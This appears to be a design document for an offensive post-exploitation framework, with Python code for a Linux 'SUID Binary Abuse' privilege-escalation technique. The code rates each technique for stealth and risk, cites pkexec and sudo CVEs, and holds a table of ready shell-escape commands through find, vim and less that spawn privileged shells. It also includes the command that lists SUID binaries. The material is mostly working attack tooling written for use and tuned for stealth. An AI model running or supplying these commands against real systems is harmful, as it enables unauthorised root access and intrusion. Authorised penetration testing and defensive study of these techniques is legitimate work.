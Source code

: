 ```python
        """Clean up artifacts left by technique"""
        pass
    
    async def validate_target(self, target: str) -> bool:
        """Validate target is suitable for this technique"""
        pass
```

---

### 2.2 Priority Techniques (Sprint 1)

#### 2.2.1 Linux Privilege Escalation
**Technique 1: SUID Binary Abuse**
```python
# techniques/privilege_escalation/linux_suid_abuse.py

class LinuxSUIDAbuse(BasePostExploit):
    """
    Exploits misconfigured SUID binaries for privilege escalation.
    
    Technique:
    1. Find SUID binaries: find / -perm -4000 2>/dev/null
    2. Check GTFOBins database for exploitation methods
    3. Execute privilege escalation
    
    Targets:
    - Common SUID misconfigurations (find, vim, less, more, cp, mv)
    - Custom SUID binaries with vulnerabilities
    
    CVE Examples:
    - CVE-2021-4034 (pkexec)
    - CVE-2019-14287 (sudo)
    
    Stealth Level: 6/10 (leaves logs but common admin activity)
    Risk Level: 5/10 (can break system if misused)
    """
    
    def __init__(self):
        super().__init__()
        self.technique_id = "PRIVESC-LINUX-SUID-001"
        self.name = "SUID Binary Abuse"
        self.category = PostExploitCategory.PRIVILEGE_ESCALATION
        self.os_targets = ["linux"]
        self.privilege_required = "user"
        self.stealth_level = 6
        self.risk_level = 5
        
        # GTFOBins database (subset)
        self.suid_exploits = {
            "find": [
                "find . -exec /bin/sh -p \\; -quit",
                "find . -exec whoami \\;"
            ],
            "vim": [
                "vim -c ':py3 import os; os.execl(\"/bin/sh\", \"sh\", \"-pc\", \"reset; exec sh -p\")'",
                "vim -c ':!sh'"
            ],
            "less": [
                "less /etc/profile",
                "!/bin/sh"  # Type this inside less
            ],
```